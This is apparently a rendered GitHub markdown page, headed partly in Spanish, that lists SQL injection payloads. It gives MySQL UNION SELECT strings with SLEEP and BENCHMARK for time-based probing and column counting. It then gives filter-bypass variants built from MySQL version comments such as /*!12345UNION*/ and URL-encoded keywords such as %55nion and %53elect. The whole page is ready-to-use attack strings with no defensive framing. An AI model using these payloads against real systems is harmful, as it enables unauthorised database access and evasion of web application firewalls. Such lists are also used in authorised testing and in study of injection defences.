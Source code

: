 ### Union Select + sleep() + BENCHMARK(1000000,MD5('A')) Payloads

```
 UNION SELECT @@VERSION,SLEEP(5),3
 UNION SELECT @@VERSION,SLEEP(5),USER(),4
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
 
```

### tecnicas para hacer bypass en sql inyection 

#### bypass usando comentarios
```
 /*!UNION*/ /*!SELECT*/ 1
 /*!UNION*/ /*!SELECT*/ 1,2
 /*!UNION*/ /*!SELECT*/ 1,2,3
 /*!UNION*/ /*!SELECT*/ 1,2,3,4
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/ /*!12345SELECT*/ 1
 /*!12345UNION*/ /*!12345SELECT*/ 1,2
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/(/*!12345SELECT*/ 1)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6,7)

```
#### bypass usando comentarios + url encoding 
```
 /*!%55nion*/%20/*!%53elect*/1
 /*!%55nion*/%20/*!%53elect*/%201,2
 /*!%55nion*/%20/*!%53elect*/%201,2,3
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6,7
 
 /*!12345%55nion*/ /*!12345%53elect*/ 1
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2
 /*!1234%55nion*/ /*!12345%53elect*/ 1,2,3
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6,7
 
 /*!12345%55nion*/(/*!12345%53elect*/ 1)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4)
```